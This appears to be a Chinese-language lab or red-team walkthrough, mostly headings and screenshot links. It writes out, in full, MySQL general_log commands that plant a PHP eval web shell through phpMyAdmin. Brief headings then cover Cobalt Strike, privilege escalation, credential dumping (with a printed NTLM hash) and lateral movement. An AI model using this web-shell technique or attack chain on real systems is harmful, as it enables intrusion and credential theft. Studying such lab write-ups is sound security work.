








### phpmyamin写shell

```sql
show variables like '%general%';
SET GLOBAL general_log = 'ON'; show variables like '%general%';
SET GLOBAL general_log_file='C:/phpStudy/WWW/lxy.php';
SELECT '<?php eval($_POST["lxy"]); ?>';
```



*****

### 蚁剑连接



*****

### 上线CS



- 尝试提权



- 成功提到`system`权限



- 端口扫描


- 抓取明文密码



```cmd
ntml:295b75bdc039b5c4e06f05b277b9e9de
```

*****

### 横向移动



- 拿下`192.168.52.138`


